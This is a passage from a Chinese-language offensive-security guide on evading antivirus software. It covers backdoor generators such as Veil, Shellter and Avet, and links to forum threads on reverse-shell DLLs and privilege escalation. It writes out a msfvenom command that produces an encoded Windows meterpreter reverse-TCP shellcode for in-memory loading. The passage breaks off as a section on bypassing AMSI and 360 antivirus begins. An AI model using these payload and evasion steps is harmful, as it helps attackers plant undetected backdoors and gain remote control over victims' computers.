### 3.4 dns_txt

<https://www.360zhijia.com/360anquanke/353428.html>

 

### 3.5 动态注入

**①. veil**

Veil是一种可以生成带有Metasploit载荷的后门工具，可以绕过部分杀软的防御，软件本身一直在更新。

**②. Shellter**

Shellter采用了动态Shellcode注入来实现免杀的效果，当用户打开被植入后门的软件时，只有触发一定的操作才会启动后门。

**③. Avet**

git clone https://github.com/govolution/avet

安装完毕后，找到自己想要生成的后门载荷，切到/avet/build/目录下打开相应的.sh文件对LHOST和LPORT进行修改。

### 3.6 第三方分离免杀

payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：

```
msfvenom -pwindows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -ex86/shikata_ga_nai -i 5 -f raw > test.c
```

shellcode方式的payload，那么需要借助第三方来启动，加载到内存。

<https://github.com/clinicallyinane/shellcode_launcher/>



**Reference：**

[免杀技术有一套（免杀方法大集结）(Anti-AntiVirus)](https://www.t00ls.net/viewthread.php?tid=40016&highlight=%E5%85%8D%E6%9D%80)

[dll nc 反弹代码(免杀)](https://www.t00ls.net/viewthread.php?tid=39410&highlight=nc)

[NC反弹代码_服务配置端(免杀)](https://www.t00ls.net/viewthread.php?tid=46304&highlight=nc)

[custom_command_dll](https://www.t00ls.net/thread-44032-1-1.html)

[烂土豆提权](https://github.com/ohpe/juicy-potato/)

[方程式工具](https://www.t00ls.net/viewthread.php?tid=39413&extra=&highlight=%E6%96%B9%E7%A8%8B%E5%BC%8F&page=2)

[DKMC](https://blog.csdn.net/CloudAtlasM/article/details/79039391)

# 0x02 bypass_360

## 一、AMSI_bypass

**1.生成shellcode放入apache服务器中**
